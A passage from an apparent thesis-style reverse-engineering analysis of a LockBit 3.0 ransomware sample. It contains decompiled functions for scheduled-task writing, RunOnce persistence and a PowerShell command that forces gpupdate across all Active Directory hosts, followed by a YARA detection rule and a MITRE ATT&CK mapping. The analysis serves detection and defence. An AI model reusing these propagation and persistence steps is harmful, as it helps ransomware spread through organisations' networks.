                uVar1 = CONCAT31(uVar7,uVar3) << 8;
                uVar6 = uVar1 | uVar7 >> 0x10;
                iVar5 = iVar5 + -1;
                psVar8 = param_2;
              } while (iVar5 != 0);
              *puVar9 = uVar6 << 0x10 | uVar1 >> 0x10;
              puVar9 = puVar9 + 1;
            } while( true );
          }
        }
      }
    }
  }
LAB_0041570d:
  ...
  return local_8;
LAB_0041562b:
  uVar6 = 0;
  iVar5 = 4;
  puVar10 = puVar9;
  do {
    puVar9 = (uint *)((int)puVar10 + 1);
    if (*(char *)puVar10 == '\0') {
      *(undefined *)puVar11 = 0;
      iVar5 = DAT_004223d4 << 4;
      local_30 = (byte *)allocate_data_processheap_antidbg(iVar5);
      //  Decrypts and decompress the content to put at ScheduledTasks.xml
      if (((local_30 != (byte *)0x0) &&
          (local_38 = decrypt_payload_xor_custom_func(&DAT_004223d8), local_38 != (byte *)0x0)) &&
         ((uVar12 = some_aplib_decompressor_func(...),
          (int)uVar12 != -1 &&
          (local_34 = allocate_data_processheap_antidbg(iVar5), piVar2 = local_18, local_34 != 0))))
      {
        uVar4 = (*sprintf)(local_34,local_30,local_8d,local_14,*local_18,local_8d,local_7c + 0xc,
                           local_7c + 0xc,local_7c + 0xc,local_10d,&DAT_00425bc0);
        iVar5 = (*WriteFile)(local_c,local_34,uVar4,local_10,0);
        if (iVar5 != 0) {
          rtl_freeheap_antidbg_func(*piVar2);
          local_8 = 1;
        }
      }
      goto LAB_0041570d;
    }
    ...
  } while (iVar5 != 0);
  ...
  goto LAB_0041562b;
}
```
.
		- FUN_004146a8:
			In this function it will force [`gpudpate`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/gpupdate) on all the hosts at the active directory with a PowerShell command that is decrypted with `decrypt_payload_xor_custom_func()` from `DAT_00421f72`.
			<div align="center"></div>
      
```powershell
powershell Get-ADComputer -filter * -Searchbase '%s' | ForEach-Object { Invoke-GPUpdate -computer $_.name -force -RandomDelayInMinutes 0 }
```
.
			Then it's deobfuscated [`Active Directory Service Interfaces (IADs)`](https://learn.microsoft.com/en-us/windows/win32/adsi/active-directory-service-interfaces-adsi) IID `{FD8256D0-FD15-11CE-ABC4-02608C9E7553}` and also [`LDAP://rootDSE`](https://learn.microsoft.com/en-us/windows/win32/adschema/rootdse), getting the IAD object to it with [`ADSOpenObject`](https://learn.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-adsopenobject).  
			<div align="center"></div>
			Then it deobfuscates `defaultNamingContext`, and with [`IADs::Get`](https://learn.microsoft.com/en-us/windows/win32/api/iads/nf-iads-iads-get) it returns the name of the Active Directory domain.
			<div align="center"></div>
			Then with [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) formats the PowerShell command by putting at `-SearchBase` the Active Directory domain name.
			And finally, with [`CreateProcessW`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw), it executes the PowerShell with that command to force the GPO update on all the hosts in the active directory.
```c
void FUN_004146a8(void)
{
  ...
  uVar1 = get_OS_version_func();
  // Decrypts powershell command to force gpupdate on all hosts in AD
  if (((0x3c < uVar1) && (local_1c = (byte *)FUN_00409640(), local_1c != (byte *)0x0)) && (local_8 = (int *)local_1c, local_1c = decrypt_payload_xor_custom_func(&DAT_00421f72),
     local_1c != (byte *)0x0)) {
    iVar2 = (*CoInitialize)(0);
    if (iVar2 == 0) {
      ... // {FD8256D0-FD15-11CE-ABC4-02608C9E7553} IADs IID
      decode_n_blocks_w_mask_func(local_ac + 0xb,4);
      ... // LDAP://rootDSE
      decode_n_blocks_w_mask_func(local_ac,8);
      iVar2 = (*ADSOpenObject)(local_ac,0,0,1,local_ac+0xb,&local_8);
      if (iVar2 == 0) {
        ... // defaultNamingContext
        decode_n_blocks_w_mask_func(local_ac,0xb);
        (*VariantInit)(local_18);
        // local_8 + 0x3c = IAD::get, retrieves AD domain (DC=?,DC=?)
        iVar2 = (**(code **)(*local_8 + 0x3c))(local_8,local_ac,local_18);
        if (iVar2 == 0) {
          (*_swprintf)(local_2b4,local_1c,local_10);
          (*VariantClear)(local_18);
          (*memset)(local_ac + 0xf,0,0x10);
          (*memset)(local_60,0,0x44);
          local_60[0] = 0x44; // Executes powershell command
          iVar2 = (*CreateProcessW)(0,local_2b4,0,0,1,0x8000000,0,0,local_60,local_ac + 0xf);
          ...
        }
      }
      if (local_8 != (int *)0x0) {
        (**(code **)(*local_8 + 8))(local_8);
      }
      (*CoUninitialize)();
    }
    if (local_1c != (byte *)0x0) {
      rtl_freeheap_antidbg_func(local_1c);
    }
  }
  return;
}
```
.
	- FUN_00411934
		First it decrypts with `decrypt_payload_xor_custom_func()` the data at `DAT_00420ab4`, `SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`, which is a registry to automatically run a program once, which will be opened with a key to it with [`RegCreateKeyExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexw) having a handle to the key `HKEY_LOCAL_MACHHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`.
		<div align="center"></div>
		Then it uses the function `FUN_004118b8()` to generate a random string by using `generate_randnumber_lcg_func()`, which uses it to evade signatures and will be used to create a value at the previous key.
		<div align="center"></div>
		Then it retrieves the path to the LockBit executable with `retrieve_process_path_from_peb()` and with `FUN_00406934()` puts it at an allocated buffer.
		<div align="center"></div>
		Also there are extra custom arguments for the executable `"-wall"`, and `"-pass %s"` which has a placeholder in order to specify a password.
		<div align="center"></div>
		<div align="center"></div>
		Finally, [`RegSetValueExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexw) sets the randomly generated string as the value name and as the data, the path to the executable, which will make the malware have a persistence mechanism to make sure through the registry to continue with its execution; this technique  ([`T1547.001`](https://attack.mitre.org/techniques/T1547/001/)) is documented in the MITRE ATT&CK Framework.
```c
undefined4 FUN_00411934(void)
{
  ... 
  // Decrypt SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce
  local_10 = decrypt_payload_xor_custom_func(&DAT_00420ab4);
  // get handle to the previous key, FUN_004118b8=*RMF234aks
  if (((local_10 != (byte *)0x0) &&
  // HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce
      (iVar2 = (*RegCreateKeyExW (0x80000002,local_10,0,0,0,0x20006,0,&local_c,0), iVar2 == 0)) &&
     (local_14 = FUN_004118b8(), local_14 != (undefined2 *)0x0)) {
    uVar3 = retrieve_process_path_from_peb(); // <path_to_lockbit>
    iVar5 = FUN_00406934(uVar3,6); //ptr buffer to <path_to_lockbit>
    if (iVar5 != 0) {
      iVar2 = (*wcslen)(iVar5);
      puVar1 = (uint *)(iVar5 + iVar2 * 2);
      // deobfuscate custom argument -wall
      *puVar1 = 0x102e5fdf;
      ...
      puVar1[2] = puVar1[2] ^ 0x10035fff;
      if (DAT_004251a8 == 0) {
        (*wcscpy)(local_314,iVar5);
      }
      else {
        // decrypt custom argument with placeholder "%s -pass %s"
        pbVar4 = decrypt_payload_xor_custom_func(&DAT_00420b1c);
        (*SystemFunction041)(&DAT_004251ac,0x48,0);
        (*_swprintf)(local_314,pbVar4,iVar5,&DAT_004251ac); // Inserts custom key
        (*SystemFunction040)(&DAT_004251ac,0x48,0);
        ...
      }
      iVar2 = (*wcslen)(local_314);
// Creates in SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnce
// a value with the name *RMF234aks putting as data the malware path
      iVar2 = (*RegSetValueExW)(local_c,local_14,0,1,local_314,iVar2 * 2 + 2);
      if (iVar2 == 0) {
        local_8 = 1;
      }
    }
  }
  ...
  return local_8;
}
```

### LockBit 3.0 Malware Behaviour Analysis
If we execute the malware, we can see that files get encrypted with the custom extension `.AFfGdukAp` we have seen earlier.
<div align="center"></div>

Also at the desktop there appears the file `AFfGdukAp.README.txt` that contains info regarding the ransom of the data and how to recover the files, giving two mail addresses to contact, `fastwindGlobe@mail.ee` and `fastwindglobe@cock.li`, that have an unconventional mail domain, to remain safe and hidden, because they are committing a crime and it makes no sense to use a common mail domain like `@gmail`. It also has a Telegram to contact, which is `@decryptfastwind`, and also at the end we can see our unique `DECRYPTION ID`. The readme file is created in each folder of the system.
<div align="center"></div>

If we look at the ProcessHacker log, we can see the process history after the execution of LockBit 3.0:
- Deleted services:
	<div align="center"></div>
  
	<div align="center"></div>
  
	
And if we look at the services and suspend LockBit after it is executed, we will see that the token it has is `LUA://DecHdAutoAp` which means the UAC bypass was done correctly, as also the process is marked as elevated.
<div align="center"></div>


The base icon and the wallpaper are stored at `C:/ProgramData`:
<div align="center"></div>

The wallpaper is `AFfGdukAp.bmp`:
	<div align="center"></div>
	That is set in the registry, as is normally done, at `HKEY_CURRENT_USER\Control Panel\Desktop` with the value `C:/ProgramData/AFfGduKAp.bmp`.
	<div align="center"></div>
  
	
And the icon is `AFfGdukAp.ico`:
	<div align="center"></div>
	That is set in the registry `HKEY_CLASSES_ROOT\AFfGduKAp\DefaultIcon` with the value of the path to the icon, `C:/ProgramData/AFfGduKAp.ico`.
	<div align="center"></div>
  

### Execution workflow
This is the general execution workflow for this LockBit 3.0 sample:
<div align="center"></div>

### YARA rule
**YARA** is a tool used to identify and classify malware by defining patterns based on binary strings, structures, or behaviours. It plays a key role in threat hunting and malware analysis. In this project, a custom YARA rule is used to detect LockBit 3.0 based on unique characteristics observed during reverse engineering.

Based on all this now, it is time to elaborate a YARA rule based on everything we know until now.
The recommended course of action is to focus on the techniques, data, and files that are likely to be common in other LockBit variants. We will be using [`YARA documentation`](https://yara.readthedocs.io/en/latest/) to elaborate the YARA rules.
The rule is created based on:
	- Three weird header values that there is not any information about, but if we analyse other LockBit samples, they also contain it.
	- The unique hash signature found at `custom_hashing_function()`.
	- The trampolines it creates to store the pointer of an API.
	- Anti-debug techniques.
	- The custom base64 modification.
	- The language whitelist function.
The most likely condition to fail is the obfuscated strings because it's really easy and convenient to change the mask, which is constantly used in this malware sample, `0x10035fff`, and obfuscate these strings with other random masks.
```yara
rule LockBit_3_0_victorK
{
    meta:
        author = "Victor Kravchuk Vorkevych"
        source = "TFG - Ingeniería Inversa de Malware: Análisis y Técnicas de evasión"
        sharing = "TLP:WHITE"
        status = "RELEASED"
        description = "Detects LockBit 3.0 ransomware based on reverse engineering findings"
        category = "MALWARE"
        creation_date = "2025-06-06"
        malware_family = "LockBit 3.0"
        version = "1.0"

    strings:
        // Weird header unique data
        $header1 = ".xyz" wide ascii
        $header2 = ".rdata$zzzdbg" wide ascii
        $header3 = ".text$mn" wide ascii

        // Hashing function from custom_hashing_function
        $core_hash = { 02 F1 2A F1 [2-18] D3 CA 03 D0 }

        // Trampolines for API from load_apis_func
        $core_tramp1 = { 35 ?? ?? ?? ?? 50 ?? ?? ?? ?? ?? 8B D8 6A 10 6A 00 ?? ?? ?? ?? ?? ?? B9 ?? ?? ?? ?? 81 F1 ?? ?? ?? ?? 39 48 10 }
        $core_tramp2 = { C6 00 B8 8B D0 ?? ?? ?? ?? ?? ?? ?? ?? ?? 85 C0 ?? ?? ?? ?? ?? ?? ?? ?? ?? ?? ?? 8B C8 D3 C3 89 5A 01 66 C7 42 05 C1 C8 88 4A 07 66 C7 42 08 FF E0 }
        $core_tramp3 = { 8B C8 D3 CB 89 5A 01 66 C7 42 05 C1 C0 88 4A 07 66 C7 42 08 FF E0 }
        $core_tramp4 = { B8 FF 5F 03 10 33 D8 89 5A 01 C6 42 05 35 89 42 06 66 C7 42 0A FF E0 }
        $core_tramp5 = { 8B C8 B8 FF 5F 03 10 33 D8 D3 C3 89 5A 01 66 C7 42 05 C1 C8 88 4A 07 C6 42 08 35 89 42 09 66 C7 42 0D FF E0 }
        $core_tramp6 = { 8B C8 B8 FF 5F 03 10 33 D8 D3 CB 89 5A 01 66 C7 42 05 C1 C0 88 4A 07 C6 42 08 35 89 42 09 66 C7 42 0D FF E0 }

        // Anti-debug techniques
        $core_antidbg1 = { 8B 40 18 F7 40 44 00 00 00 40 ?? ?? D1 C? }
        $core_antidbg2 = { 8B 40 40 C1 E8 1C A8 04 ?? ?? D1 C? }
        $core_antidbg3 = { 33 C0 40 40 8D 0C C5 01 00 00 00 83 7D 08 00 ?? ?? F7 D8 }

        // Custom base64
        $core_customb64 = { 3C 2B ?? ?? B0 78 ?? ?? 3C 2F ?? ?? B0 69 ?? ?? 3C 3D ?? ?? B0 7A }

        // Language whitelist
        $core_lang_whitelist_func = { BB 01 00 00 00 C1 E3 0A 80 F3 01 C0 E3 04 80 F3 09 66 3B DE }

    condition:
        (uint16(0) == 0x5A4D and filesize < 200KB and filesize > 100KB)
        and (
            4 of ($core*) or
            (all of ($header*) and 1 of ($core*))
        )
}
```

- Checking the YARA rule 
	To check the YARA rules, we will use [`yaradbg`](https://yaradbg.dev/) which is a web-based YARA debugger, to test your YARA rules without requiring you to install anything.
	We will check first our sample if the YARA rules are triggered by dragging the YARA rule to the left and the malware to the right.
		- 0845a8c3be602a72e23a155b23ad554495bd558fa79e1bb849aa75f79d069194.exe:
			We can see that with the copy we analysed, obviously all the rules match, as you can see at the bottom right, and that at the left the rule is triggered, as it's highlighted in green by the YARA rule.
			<div align="center"></div>
		- Other variants:
			- 0d38f8bf831f1dbbe9a058930127171f24c3df8dae81e6aa66c430a63cbe0509.exe:
				At this variant matches the weird header signatures and the hashing function signature.
				<div align="center"></div>
			- 80e8defa5377018b093b5b90de0f2957f7062144c83a09a56bba1fe4eda932ce.exe:
				Also, this variant matches the weird header signatures and the hashing function signature.
				<div align="center"></div>
			- 391a97a2fe6beb675fe350eb3ca0bc3a995fda43d02a7a6046cd48f042052de5.exe:
				The same as before, the weird header signatures and the hashing function signature match.
				<div align="center"></div>
        

### MITRE ATT&CK Framework
The **MITRE ATT&CK framework** is a curated knowledge base of tactics and techniques used by real-world adversaries. It helps analysts identify and classify malicious behaviour across different attack stages. In this project, LockBit 3.0 techniques are mapped to ATT&CK to highlight its capabilities in a structured and actionable way.

| **Phase**                   | **Technique**                                        | **ID**    | **Evidence**                                                                                                                                      |
| --------------------------- | ---------------------------------------------------- | --------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| **1. Initial Access**       | *There are multiple ways to distribute the malware*  | —         | The malware copy was obtained manually from MalwareBazaar, so no initial access vector was observed in the sample.                                |
| **2. Execution**            | Command and Scripting Interpreter: PowerShell        | T1059.001 | Uses PowerShell commands at `FUN_004146a8()` to force `gpupdate` on network hosts.                                                                |
|                             | Inter-Process Communication: Component Object Model  | T1559.001 | Uses COM objects like `ICMLuaUtil` to execute commands with elevated privileges in `bypass_uac_icmluautil_spoof_peb_and_relaunch()`.              |
|                             | Native API                                           | T1106     | Indirect use of native API functions after dynamically loading them at `construct_api_addresses_antidbg()`.                                       |
|                             | Scheduled Task/Job                                   | T1053.005 | Sets scheduled tasks to AD hosts at `FUN_004150e0()`.                                                                                             |
|                             | Windows Management Instrumentation                   | T1047     | Uses WMI at `FUN_0040782a()` to delete shadow copies.                                                                                             |
| **3. Persistence**          | Boot or Logon Autostart Execution: Registry Run Keys | T1547.001 | Sets persistence via the registry at `FUN_00411934()`.                                                                                            |
|                             | Boot or Logon Autostart Execution: LSASS Driver      | T1547.008 | Injects a named pipe into `lsass.exe` at `inject_named_pipe_handle_lsass_or_explorer()`.                                                          |
| **4. Privilege Escalation** | Abuse Elevation Control Mechanism: Bypass UAC        | T1548.002 | Uses `ICMLuaUtil` COM object to bypass UAC and relaunch LockBit with elevated privileges.                                                         |
|                             | Access Token Manipulation: Token Impersonation/Theft | T1134.001 | Impersonates the token of `explorer.exe` at `get_explorer_securitydelegation_token()`.                                                            |
|                             | Valid Accounts                                       | T1078     | Uses AD accounts from a credential list tested at `attempt_dclogon_and_get_token()`.                                                              |
| **5. Defense Evasion**      | Debugger Evasion                                     | T1622     | Multiple anti-debugging techniques: `construct_api_addresses_antidbg()`, `hide_thread_from_dbg_func()`, `rtl_freeheap_antidbg_func()` and others. |
|                             | Deobfuscate/Decode Files or Information              | T1140     | Deobfuscation via mask `0x10035fff`, Base64 decoding, and two-round XOR decryption in `decrypt_payload_xor_custom_func()`.                        |
|                             | Group Policy Modification                            | T1484.001 | Disables Microsoft Defender via GPO at `FUN_004157b4()` and configures GPO to execute LockBit from SYSVOL at `FUN_004150e0()`.                    |
|                             | Hide Artifacts: Process Argument Spoofing            | T1564.010 | Spoofs the command line in the PEB to make LockBit appear as `dllhost.exe` at `spoof_peb_imagepath_commandline_to_dllhost()`.                     |
|                             | Impair Defenses: Disable or Modify Tools             | T1562.001 | Stops and deletes Windows Security Services at `FUN_00407ca4()` and security tools (e.g., Sophos) at `FUN_00414e50()`.                            |
|                             | Impair Defenses: Disable or Modify System Firewall   | T1562.004 | Disables Windows Defender firewall policies on AD hosts at `FUN_004157b4()`.                                                                      |
|                             | Indicator Removal: Clear Windows Event Logs          | T1070.001 | Deletes Windows event logs at `FUN_004091c8()`.                                                                                                   |
|                             | Indirect Command Execution                           | T1202     | Dynamically resolves APIs and builds trampolines for execution at `load_apis_func()`.                                                             |
|                             | Obfuscated Files or Information                      | T1027     | Obfuscated payload decoded via XOR and decompressed with aPLib-like algorithm at `some_aplib_decompressor_func()`.                                |
|                             | Process Injection: Thread Execution Hijacking        | T1055.003 | Injects payload remotely to hijack execution at `inject_payload_and_wait_remote_thread()`.                                                        |
|                             | Reflective Code Loading                              | T1620     | Reflectively loads code dynamically during execution at `decompress_obfuscated_code_func()`.                                                      |
| **6. Credential Access**    | Brute Force: Password Spraying                       | T1110.003 | Tries a list of common credentials against the domain controller at `store_valid_dc_credential_from_list()`.                                      |
| **7. Discovery**            | System Information Discovery                         | T1082     | Collects system info before exfiltration at `FUN_0040cd04()`.                                                                                     |
|                             | System Language Discovery                            | T1614.001 | Retrieves user language to decide execution at `whitelist_language_func()`.                                                                       |
| **8. Lateral Movement**     | Taint Shared Content                                 | T1080     | Drops a copy of LockBit into `SYSVOL` and uses GPOs to force execution on all domain hosts at `FUN_004150e0()`.                                   |
| **9. Collection**           | Data from Local System                               | T1005     | Collects local system data for exfiltration at `FUN_0040cd04()`.                                                                                  |
| **10. Exfiltration**        | Exfiltration Over Web Service                        | T1567     | Exfiltrates collected data via HTTP POST at `FUN_0040cfcc()`.                                                                                     |
| **11. Impact**              | Data Destruction                                     | T1485     | Deletes shadow copies at `FUN_0040782a()`.                                                                                                        |
|                             | Data Encrypted for Impact                            | T1486     | LockBit’s primary objective is to encrypt user files and demand ransom.                                                                           |
|                             | Defacement: Internal Defacement                      | T1491.001 | Changes file icons and wallpaper on infected systems.                                                                                             |
|                             | Inhibit System Recovery                              | T1490     | Deletes VSS shadow copies used for recovery at `FUN_0040782a()`.                                                                                  |
|                             | Service Stop                                         | T1489     | Stops services such as SQL and backup tools like Veeam at `FUN_00414e50()`.                                                                       |
